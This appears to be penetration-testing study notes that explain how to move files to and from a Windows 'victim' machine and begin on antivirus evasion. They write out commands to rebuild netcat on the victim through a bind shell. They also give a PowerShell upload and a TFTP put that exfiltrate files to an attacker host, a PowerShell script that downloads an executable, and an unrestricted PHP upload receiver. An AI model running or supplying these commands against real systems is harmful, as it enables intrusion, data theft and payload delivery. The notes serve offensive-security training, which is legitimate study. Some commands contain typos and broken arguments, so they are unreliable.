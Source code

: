 	On the attacker machine, we will compress our binary, convert it to HEX and create a Windows script. 
	On the Windows victim machine, we will paste the script into a shell and run it. It will redirect the HEX data into powershell.exe, which will asseble it back into a binary. This will be done thru a series of non-interactive commands:
		upx -9 nc.exe
		exe2hex -x nc.exe -p nc.cmd
		cat nc.cmd | xclip -selection clipboard
		now we paste the script into our bind shell
		at the end of the paste process, we will have reconstructed nc.exe on the victim"s machine
Windows upload with Windows scripting languages (data exfiltration from our victim to our attacker machines):
	We need to have a upload PHP script available in the Web root of the attacker machine: upload.php
	create the uploads folder: sudo mkdir /var/www/uploads
	assign proper priviledges (to note that this will allow anyone to upload a file to our attacker machine): sudo chown www-data: /var/www/uploads 
	and finally we exfiltrate the evil.exe from the victim to the attacke: powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'evil.exe')
Uploading files with TFTP client:
	This can be used on older Windows systems, up to Windows XP and Windows 2003 (the TFTP client is not installed on Windows 7, Windows 2008 and newer)
	We need to install TFTP on our attacker machine: sudo apt-get install atftp
	Then, to create the transfer folder, configure it and launch it with the following commands: sudo mkdir /tftp && sudo chown nobody: /tftp && sudo atftpd --daemon --port 69 /tftp
	Finally, on our Windows victim machine, we cna exfiltrate the evil2.exe file with the command: tftp -i 10.11.0.4 put evil2.exe

###### setup-ftp.sh
#!/bin/bash
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd raste -u ftpuser -d /etc ftpuser
pure-pw mkdb
cd /etc/pure-ftpd/auth
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
systemctl restart pure-ftpd

###### wget.ps1
echo $webclient = new-Object System.Net.WebClient >> wget.ps1
echo $url = "http://10.11.0.4/wget.exe" >> wget.ps1
echo $file = "evil2..exe" >> wget.ps1
echo $webclient.DownloadFile($url, $file) >> wget.ps1

###### upload.php
<?php $uploaddir = '/var/www/uploads';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>

##### Antivirus Evasion
virustotal.com allows us to run a virus scan on any executable and shows the detection rate of various anti virus products
Anti virus detection methods:
	Signature-based detection: this is a black list technology. We can bypass signature-based detection by obfuscating the content of a file 
	Huristic-based detection: it relies on rules and algorithms based on the analisys of the instruction set of a binary file or its decompilation and analisys of derived source code
	Behavioural-based detection: based on the dynamic analisys of the binary file behaviour, often executed on a sandbox environment
Most antivirus products offer a combination of these three capabilities to achieve beffere detection rate
Antivirus evasion: